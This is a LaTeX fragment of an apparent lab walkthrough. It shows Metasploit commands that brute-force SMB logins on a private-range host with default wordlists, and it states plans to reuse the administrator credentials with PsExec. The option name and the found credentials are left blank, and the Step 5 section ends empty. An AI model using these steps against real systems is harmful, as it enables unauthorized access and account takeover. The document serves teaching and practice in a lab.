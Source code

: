 \begin{whybox}

Created a dedicated workspace so these results stay isolated from other labs.


\section*{Step 4 --- Brute-Force SMB Credentials}

\begin{termbox}
search smb_login
use auxiliary/scanner/smb/smb_login
set RHOST 10.2.28.213
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
run
\end{termbox}

I set  because I don't want to sit through thousands of failed
lines. I only care about the successes.



\textbf{Credentials found:}
\begin{itemize}
  \item {}
  \item {}
  \item {}
  \item \textbf{} $\leftarrow$ this is the one
\end{itemize}

Four credential pairs found. The administrator account has full system privileges
so that is the one going straight into PsExec.

\section*{Step 5 --- Exploit with PsExec}


\end{whybox}
